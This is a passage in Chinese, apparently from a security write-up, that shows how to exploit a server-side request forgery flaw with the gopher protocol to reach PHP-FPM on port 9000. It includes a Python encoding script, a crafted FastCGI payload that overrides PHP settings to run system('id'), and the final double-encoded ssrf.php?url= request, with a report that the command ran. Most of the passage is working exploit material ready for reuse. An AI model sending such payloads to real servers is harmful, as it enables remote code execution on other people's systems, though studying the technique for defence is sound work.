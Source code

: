 
文件里的内容有部分是不可见字符，这里需要 url 编码一下，这里写一个 Python 脚本对文件中的内容进行编码

```bash
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

执行上面的 python 脚本生成如下 payload：

```bash
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%14%04%00%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Ddisable_functions%20%3D%20%0Dsafe_mode%20%3D%20Off%0Dauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%00%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0D%27%29%3B%3F%3E
```

之后我们还要对上面的 payload 进行二次 url 编码，然后将最终的 payload 内容放到？url=后面发送过去（这里需要进行两次编码，因为这里 GET 会进行一次解码，curl 也会再进行一次解码）：

```bash
ssrf.php?url=gopher%3A//127.0.0.1%3A9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2514%2504%2500%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509%255BPHP_VALUEallow_url_include%2520%253D%2520On%250Ddisable_functions%2520%253D%2520%250Dsafe_mode%2520%253D%2520Off%250Dauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2500%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----0vcdb34oju09b8fd-----%250D%2527%2529%253B%253F%253E
```

如下图所示，命令执行成功：

[![](assets/1698897074-faaa9d308c37bdc5e4cbe084f949d0ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-90055350-b2e5-1.png)
